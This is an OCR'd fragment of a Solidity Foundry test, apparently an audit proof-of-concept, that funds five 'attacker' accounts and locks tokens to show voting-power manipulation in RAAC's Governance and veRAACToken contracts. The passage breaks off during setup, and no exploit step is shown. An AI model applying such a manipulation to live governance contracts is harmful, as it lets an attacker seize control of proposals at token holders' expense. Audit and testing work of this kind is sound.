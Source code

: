 ```solidity 
    }
}
​
contract GovernanceTest is Test {
    Governance public governance;
    TimelockController public timelock;
    veRAACToken public veToken;
    MockRAACToken public raacToken;
​
    address public admin = address(this);
    address public attacker = makeAddr("attacker");
    address[] public attackerAccounts;
    uint256 constant NUM_ACCOUNTS = 5;
​
    function setUp() public {
        raacToken = new MockRAACToken();
        veToken = new veRAACToken(address(raacToken));
        
        address[] memory proposers = new address[](1);
        address[] memory executors = new address[](1);
        proposers[0] = admin;
        executors[0] = admin;
        
        timelock = new TimelockController(2 days, proposers, executors, admin);
        governance = new Governance(address(veToken), address(timelock));
​
        timelock.grantRole(timelock.PROPOSER_ROLE(), address(governance));
        timelock.grantRole(timelock.EXECUTOR_ROLE(), address(governance));
​
        // Create multiple attacker accounts
        for(uint i = 0; i < NUM_ACCOUNTS; i++) {
            attackerAccounts.push(makeAddr(string.concat("attacker", vm.toString(i))));
            // Give each account enough tokens for their larger lock amount
            uint256 accountTokens = 200_000e18 * (i + 1);
            raacToken.transfer(attackerAccounts[i], accountTokens);
        }
​
        // Give extra tokens to attacker0 for the proposal
        raacToken.transfer(attackerAccounts[0], 500_000e18);
    }
​
    function testVotingPowerManipulation() public {
        emit log_string("\n=== Phase 1: Initial Setup ===");
        
        // Setup initial voting power for attacker0 with max lock
        vm.startPrank(attackerAccounts[0]);
        raacToken.approve(address(veToken), 500_000e18);
        veToken.lock(500_000e18, 1460 days); // Max lock duration for proposal power
        vm.stopPrank();
​
        emit log_named_uint(
            "Attacker0 initial voting power",
            veToken.getVotingPower(attackerAccounts[0])
        );
​
        // Setup other accounts with increasing amounts
        for(uint i = 1; i < attackerAccounts.length; i++) {
            vm.startPrank(attackerAccounts[i]);
            uint256 lockAmount = 200_000e18 * (i + 1);
            raacToken.approve(address(veToken), lockAmount);
            veToken.lock(lockAmount, 365 days); // Initial minimum lock
            vm.stopPrank();
            
```